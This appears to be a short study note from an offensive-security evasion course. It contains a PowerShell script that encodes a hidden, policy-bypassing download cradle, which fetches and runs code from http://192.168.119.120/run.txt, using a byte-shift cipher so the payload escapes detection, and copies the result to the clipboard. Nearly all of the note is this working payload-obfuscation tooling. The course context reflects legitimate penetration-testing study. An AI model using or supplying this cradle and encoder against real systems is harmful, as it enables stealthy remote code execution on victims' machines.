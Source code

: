 ```powershell
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object
system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
[string]$output = ""
$payload.ToCharArray() | %{
	[string]$thischar = [byte][char]$_ + 17
	if($thischar.Length -eq 1)
	{
		$thischar = [string]"00" + $thischar
		$output += $thischar
	}
	elseif($thischar.Length -eq 2)
	{
		$thischar = [string]"0" + $thischar
		$output += $thischar
	}
	elseif($thischar.Length -eq 3)
	{
		$output += $thischar
	}
}
$output | clip
```

Script converts Bytes into Decimal code and using Caesars Encryption
It outputs (copies into clipboard) the payload.

MoreInfo:
![[Evasion Techniques and Breaching Defenses#6 8 2 Dechaining with WMI]]